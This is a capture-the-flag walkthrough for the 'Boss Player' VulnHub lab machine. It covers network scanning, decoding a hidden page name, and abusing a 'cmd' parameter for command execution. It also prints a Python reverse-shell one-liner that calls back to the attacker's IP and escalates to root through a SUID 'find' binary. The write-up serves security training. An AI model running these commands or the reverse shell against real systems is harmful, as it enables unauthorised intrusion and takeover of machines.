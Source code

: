 # Boss Player CTF

### 1.Get VM IP

```bash
root@kali: arp-scan -I eth0 -l
Interface: eth0, type: EN10MB, MAC: 08:00:27:b2:e9:3f, IPv4: 192.168.56.102
Starting arp-scan 1.10.0 with 256 hosts (https://github.com/royhills/arp-scan)
192.168.56.1	0a:00:27:00:00:12	(Unknown: locally administered)
192.168.56.100	08:00:27:16:f6:de	PCS Systemtechnik GmbH
192.168.56.123	08:00:27:de:8c:54	PCS Systemtechnik GmbH
```

let's scan the ip address `192.168.56.123`

### 2.Enumeration

```bash
root@kali:nmap -sT -sV -v -p- -oN nmap.out 192.168.56.123
Host is up (0.00060s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10 (protocol 2.0)
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
MAC Address: 08:00:27:DE:8C:54 (Oracle VirtualBox virtual NIC)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

check web page :

![image](https://github.com/Git-K3rnel/VulnHub/assets/127470407/53d19546-781b-4327-ba96-1a53c7cd6d75)

check source page:

![image](https://github.com/Git-K3rnel/VulnHub/assets/127470407/2d30e9b0-1ca1-4b34-bfe0-d91c54c69ae9)

let's decode it :

```bash
root@kali: echo -n 'WkRJNWVXRXliSFZhTW14MVkwaEtkbG96U214ak0wMTFZMGRvZDBOblBUMEsK' | base64 -d | base64 -d | base64 -d
workinginprogress.php
```

navigate to this new address : `http://192.168.56.123/workinginprogress.php`

![image](https://github.com/Git-K3rnel/VulnHub/assets/127470407/216ba80e-f0db-4fe0-aee0-e121c1be5610)

in this page we need to fuzz for different paramteters to find the correct one, i use burp suit for this and afew common paramters:

and finally found the correct paramter `cmd` and `id` command that is executed on the system
```text
http://192.168.56.123/workinginprogress.php?cmd=id
```

### 3.Gaining Shell

Use a python reverse shell, url encode it and send to get the shell

```python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.56.102",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'
```

### 4.Privilege Escalation

Search for SUID binaries

```bash
$ find / -user root -perm /4000 2>/dev/null
/usr/bin/mount
/usr/bin/umount
/usr/bin/gpasswd
/usr/bin/su
/usr/bin/chsh
/usr/bin/grep
/usr/bin/chfn
/usr/bin/passwd
/usr/bin/find
/usr/bin/newgrp
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/openssh/ssh-keysign
/usr/lib/eject/dmcrypt-get-device
```

here it shows that `find` has SUID bit set, use `GTFobins` to find how to escalate it :


```bash
$ find . -exec /bin/sh -p \; -quit

id
uid=33(www-data) gid=33(www-data) euid=0(root) egid=0(root) groups=0(root),33(www-data)

cd /root

cat root.txt
Y29uZ3JhdHVsYXRpb25zCg==
```

This is how you can get root on this machine :)















